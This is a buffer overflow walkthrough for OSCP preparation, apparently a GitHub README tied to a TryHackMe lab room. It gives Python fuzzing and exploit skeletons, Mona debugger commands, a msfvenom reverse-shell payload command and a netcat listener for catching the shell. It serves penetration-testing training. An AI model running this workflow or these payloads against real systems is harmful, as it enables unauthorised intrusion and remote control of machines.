 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

#### Step 1: Ensure Mona is installed in Immunity Debugger

#### Step 2: Launch Immunity Debugger, open relevant application, and run the program with the red play button

#### Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

#### Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
#### Step 5: Create exploit.py skeleton:
*Most likley, the examples provided will have to be modified in some way since every program is different*
 
exploit.py Example 1:
 
```
import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
 
 exploit.py Example 2:
 
```
import socket

ip = "10.10.96.43"
port = 9999

prefix = "username"
offset = 0   
overflow = "A" * offset
retn = ""   
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
 s.connect((ip, port))
 print("Sending buffer...")
 s.recv(1024)
 s.send(bytes(prefix + "\r", "latin-1"))
 s.recv(1024)
 s.send(bytes(buffer + "\r\n", "latin-1"))
 print("Done!")
except:
 print("Could not connect.")
```
  
#### Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

#### Step 7: Paste output from Step 6 into payload variable of exploit.py
  
#### Step 8: Restart application and run the program in Immunity, Run exploit.py from attack machine
 
#### Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
*PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*

*Look for a line in the output that states: EIP contains normal pattern : ... (offset XXXX)*
 
#### Step 10: Set offset variable in exploit.py as the offset found in Step 9
 
#### Step 11: Set retn variable to "BBBB" in exploit.py

#### Step 12: Restart application and run the program in Immunity; Run exploit.py
  
#### Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
#### Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

#### Step 15: Run Bad Characters Script

#### Step 16: Paste Bad Characters output into payload variable of exploit.py

#### Step 17: Re-open application in Immunity but do NOT run the program

#### Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

#### Step 19: Run the program in Immunity; Run exploit.py on attack machine

#### Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

#### Step 21: Remove first bad character in the list generated in Step 20 from payload variable in exploit.py

#### Step 22: Re-open Application in Immunity but do NOT run the program

#### Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

#### Step 24: Repeat steps 19-23 until Step 20 says "Unmodified" in the Immunity logs (Charaters in the exeption list of bytearray are the bad characters)

#### Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb "[BAD-CHARACTERS]"
```
*Most likley, no output will be generated. View Logs in Immunity to see jump point*

#### Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

#### Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```

#### Step 28: Paste generated payload into payload variable of exploit.py
*Wrap output/payload variable in parentheses ()*

#### Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

#### Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

#### Step 31: Restart application and run the program in Immunity, and run exploit.py from attack machine

#### Step 32: Check listener, it should have a shell



## Reference

* https://tryhackme.com/room/bufferoverflowprep#
